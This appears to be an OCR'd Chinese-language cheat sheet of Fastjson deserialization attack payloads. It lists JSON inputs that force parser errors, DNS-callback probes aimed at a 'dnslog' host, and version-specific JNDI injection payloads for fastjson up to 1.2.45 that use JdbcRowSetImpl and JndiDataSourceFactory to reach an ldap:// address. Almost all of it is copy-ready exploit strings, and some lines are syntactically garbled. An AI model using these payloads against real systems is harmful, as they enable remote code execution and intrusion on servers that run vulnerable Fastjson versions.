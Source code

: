 com.alibaba.fastjson.JSONException , 触发方式如下  
 {"x":"  
 ["x":1]  
 {"x":{"@type":"java.lang.AutoCloseable"

**DNS 探测方法：  
注意：Content-Type: application/json**

```
# 未报错poc
{"x":{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}}
{"x":{{"@type":"java.net.URL","val":"http://dnslog"}:"x"}}
{"x":{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"http://dnslog"}}""}}

# 报错,但仍有效
{"x":{"@type":"java.net.Inet4Address","val":"dnslog"}}
{"x":{"@type":"java.net.Inet6Address","val":"dnslog"}}
{"x":Set[{"@type":"java.net.URL","val":"http://dnslog"}]}

# 报错,且返回400,但仍有效
{"x":Set[{"@type":"java.net.URL","val":"http://dnslog"}}
{"x":{{"@type":"java.net.URL","val":"http://dnslog"}:0}
```

**Fastjson 时间线**

**fastjson<=1.2.24(CNVD-2017-02833)**

```
{"v24":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://0.0.0.0","autoCommit":true}}
```

**fastjson<=1.2.41**

```
{"v41":{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","dataSourceName":"ldap://0.0.0.0","autoCommit":true}}
```

**fastjson<=1.2.42**

```
{"v42":{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","dataSourceName":"ldap://0.0.0.0","autoCommit":true}}
```

**fastjson<=1.2.43**

```
{"v43":{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{"dataSourceName":"ldap://0.0.0.0","autoCommit":true]}}}
```

**fastjson<=1.2.45**

```
{"v45":{"@type":"java.lang.Class","val":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory"},"xxx":{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"ldap://0.0.0.0"}}}
```
